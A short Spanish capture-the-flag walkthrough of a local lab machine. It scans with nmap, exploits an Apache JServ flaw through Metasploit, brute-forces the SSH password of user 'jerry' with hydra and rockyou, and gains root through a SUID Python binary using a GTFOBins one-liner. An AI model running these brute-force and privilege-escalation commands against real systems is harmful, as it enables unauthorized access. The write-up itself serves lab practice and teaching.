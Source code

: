 Fecha: 05/09/2024

Comienzo usando nmap: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](Imágenes/Pasted%20image%2020240905155705.png)

Compruebo las versiones usando `msfconsole` y encuentro que Apache Jserv tiene una vulnerabilidad:

![](Imágenes/Pasted%20image%2020240905160937.png)

![](Imágenes/Pasted%20image%2020240905161358.png)

Ejecuto `exploit` y, viendo el fichero de salida encuentro el mensaje "Welcome to Tomcat, Jerry ;)"

![](Imágenes/Pasted%20image%2020240905161526.png)

Probaré a buscar una contraseña para "Jerry" para ssh: 
```bash
sudo hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 16 
```

![](Imágenes/Pasted%20image%2020240905161829.png)
Me conecto y veo que no puedo usar el comando sudo, así que busco ficheros con el bit SUID activado:
![](Imágenes/Pasted%20image%2020240905162313.png)

```
find / -perm -4000 -user root 2>/dev/null
```

![](Imágenes/Pasted%20image%2020240905162549.png)
Puedo usar python, así que debería ser fácil escalar privilegios. https://gtfobins.github.io/gtfobins/python/#suid 
Creo el siguiente archivo python y lo ejecuto:

```python
import os

os.execl("/bin/bash", "sh", "-p")
```

![](Imágenes/Pasted%20image%2020240905163309.png)
En otros writeups leo que se puede ejecutar también de la siguiente forma:
```bash
/usr/bin/python3.7 -c 'import os; os.execl("/bin/bash", "sh", "-p")'
``` 




